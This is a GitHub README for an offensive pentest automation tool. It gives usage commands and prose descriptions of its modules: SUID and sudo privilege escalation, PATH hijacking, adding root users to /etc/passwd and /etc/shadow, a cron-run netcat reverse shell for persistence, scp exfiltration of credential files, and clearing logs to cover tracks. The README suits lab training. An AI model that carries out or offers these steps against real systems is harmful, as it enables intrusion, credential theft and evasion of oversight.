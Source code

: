 ![terminator-logo](https://github.com/suffs811/writeups/blob/main/terminator-img/small-terminator.png)
# the terminator
+++ a tool for automating common techniques for the enumeration, privilege escalation, persistence, exfiltration, and reporting stages of a pentest +++

>check out the terminator's TryHackMe [room](https://tryhackme.com/jr/theterminator) to learn how to use this powerful tool!

>*feel free to use and test the terminator and share your suggestions in the [Discussions](https://github.com/suffs811/the-terminator/discussions/1)*
# contents
- terminator.py - tool for automating common techniques for enumeration, privilege escalation, persistence, exfiltration, and reporting
- reqs.py - script for downloading necessary dependencies (nmap, gobuster, nikto, enum4linux, python-docx)
- directory-list.txt - default wordlist of common directory names for web enumeration (use -w in 'enum' module to specify a different wordlist)

<> the terminator automates every stage of a penetration test *except* gaining the initial shell (there are too many possible ways to get an initial shell for it to be reliably automated, and it can depend on a multitude of nuanced vulnerabilities, so that stage is up to you, good luck!)

# how to use
## 1) before you begin

run the following command to download the required dependencies

`python3 reqs.py`

## 2) clone the repository to your computer

- `git clone https://github.com/suffs811/the-terminator.git`
- note: if you choose to only download terminator.py and not the entire repo, you will need to specify a directory wordlist for webpage enumeration ("-w" with the "enum" module of terminator.py)

## 3) deploy the terminator

<> the terminator has four modules. for full terminator productivity, you will need to run the script *four* separate times:
first on your own machine (enum), second time on the target machine after gaining initial shell (priv), third time on target machine after gaining root privileges (root), and fourth time on your local machine to compile the report (report).
- enum - enumerate the target ip
- priv - attempt privilege escalation on target machine
- root - with root privileges, establish persistence and exfiltrate system data to local machine
- report - create .txt and .docx report files on local machine from data gathered using the previous modules

*see the [syntax](#syntax) section below for help on how to use each module*

*for help with usage, use the -h flag or grep for 'usage' in the script (grep "usage" terminator.py)*

*hint: local machine = your own machine*

# syntax
(stage 1-enumerating target from local machine):
- `python3 terminator.py enum -t <target_ip_to_enumerate>`
(optional: -w <path_to_directory_wordlist> (otherwise, terminator will use default list))

(stage 2-privilege escalation after gaining shell on target machine):
- `python3 terminator.py priv -u <new_root_username> -p <new_root_passwd>`

(stage 3-persistence/data exfiltration after gaining root privileges on target machine):
- `python3 terminator.py root -u <new_user_name> -p <new_user_passwd> -l <local_ip> -x <local_listening_port>`
(optional: -f (bypass root permissions check))

(stage 4-create report on local machine):
- `python3 terminator.py report -o <output_file_name>`

# details
stage 1 - enumeration
- initial nmap scan to find open ports on host
- secondary nmap scan to identify services running on open ports
- if http in use, run nikto, gobuster, curl robots.txt, and search web page source code for 'username' and 'password'
- if smb in use, run enum4linux and nmap scripts to scan smb shares and users
- if ftp in use, run nmap scripts to determine if ftp allows 'anonymous' logon
- if nfs in use, run nmap scripts to identify service status and mounted shares

stage 2 - privilege escalation (powered by GTFObins)
- attempt to disable history logging of current session and create current backups of log files
- attempt running sudo-l to find commands user can run as sudo, then run the command if it does not require user interaction; if it does, then print to screen (the terminator can exploit over 30 different commands!)
- find files with suid bitset and if the binary exists in terminator's dictionary, execute the code; if it needs user interaction, print to screen (over 30 SUID files can be used by the terminator!)
- run strings on suid files to find commands that do not specify command's full path, then create binary file in /tmp, echo '/bin/bash -p' to file, add /tmp to $PATH, execute binary (the terminator looks for 57 different commands to exploit!)
- check if /etc/passwd or /etc/shadow are world-writable; if either one is, create password from user input and append new root user to the file; su user for root
- <> note: some privilege escalation vectors only provide you with escalated user privileges and not a full root shell; however, you can use your new escalated privileges to find another privilege escalation vector to gain a root shell (such as looking in /root or looking at root's password hash in /etc/shadow)

stage 3 - persistence and data exfiltration (ensure ssh is active on local machine)
- check for root permissions and suggest -f to bypass root check
- if root permissions are true, create password from user input, add new root user to /etc/passwd, /etc/shadow files and add to root group
- create shell script at /dev/shm/.data/data_log containing netcat reverse shell at ip:port from user input
- create cronjob in /etc/crontab to execute the shell script every minute

*if cronjob is not working, you might need to run 'crontab -e' then just add a space under the cronjob, and exit the file with 'Ctrl+x', 'y', 'enter'*

- write id,whoami,netstat and /etc/passwd,/etc/shadow,/etc/hosts,/etc/crontab,/etc/exports, and suid files to single file and scp the file to local machine using ip from user input to local 'root' user; *scp will prompt for local user's root password on local machine*
- cover tracks by clearing log files and history, restoring log files to the copies made during stage 2, deleting all files created by terminator, and deleting terminator.py itself

stage 4 - report writing
- add contents from enum.txt (enumeration data), priv.txt (privilege escalation vector used to gain root privileges), and data_exfil.txt (persistence and target machine data) to .txt and .docx files with headings; use -o to specify desired file name

# credit and license
Copyright (c) 2023 suffs811

https://github.com/suffs811

This project is licensed under the MIT License - see the LICENSE file for details.

directory-list.txt comes from SecLists' common.txt list of directory names. it can be found here: [common.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/common.txt)

*terminator has been tested on kali linux 2022.4 (local machine) and ubuntu unity 22.10 / Ubuntu 20.04.6 / Ubuntu 18.04.6 (target machine)*

*NOTE: the terminator is only intended to be used for personal, legal activities. DO NOT use the terminator for illegal hacking activities. I am not liable for any damages caused by the unlawful use of this tool by another person.*

-+- Leave a comment if you have any questions! -+-
